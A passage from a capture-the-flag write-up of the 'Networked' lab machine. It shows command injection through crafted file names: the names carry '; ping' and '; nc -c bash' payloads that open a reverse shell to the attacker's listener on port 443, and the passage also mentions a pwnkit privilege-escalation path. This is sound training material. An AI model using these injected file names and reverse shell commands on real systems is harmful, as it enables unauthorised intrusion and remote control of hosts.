 > **Attacker Machine**:

```bash
tcpdump -i tun0 icmp -n
```

> **Victime Machine**:

```bash
touch '; ping -c 2 10.10.14.3'
```

<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Instinctively my next step is to use `nc` to send a **Reverse Shell**, but in my first attempt I can't get the connection to be persistent, for some reason the connection closes in an almost immediate period of time. The good thing about `nc` is that it has an improved functionality, which can be used through the **-c** parameter and that would allow me to find another way to create the connection. So I perform the attack again, with a new ***"special"*** name for the fixticio file and this time I manage to catch the incoming **Reverse Shell** with `nc` on port **443**. This way I manage to pivot user, and before continuing again I do a **console treatment** to then access the contents of the first flag. With my first enumeration command I find that the `pkexec` tool has the **SUID** bit **enabled**, which is most likely vulnerable to the **[pwnkit](https://github.com/ly4k/PwnKit){:target="_blank"}** exploit, but I will omit this attack vector because it is not the intended path.

> **Victime Machine**:

```bash
rm -f "; ping -c 2 10.10.14.3"
touch '; nc -e bash 10.10.14.3 443'
```

> **Attacker Machine**:

```bash
nc -nlvp 443
# Close connection :(

man nc
# -c string    specify  shell  commands  to exec after connect.
# -e filename  specify filename to exec after connect.  See the -c option for enhanced functionality.
```

> **Victime Machine**:

```bash
rm '; nc -e bash 10.10.14.3 443'
touch '; nc -c bash 10.10.14.3 443'
```

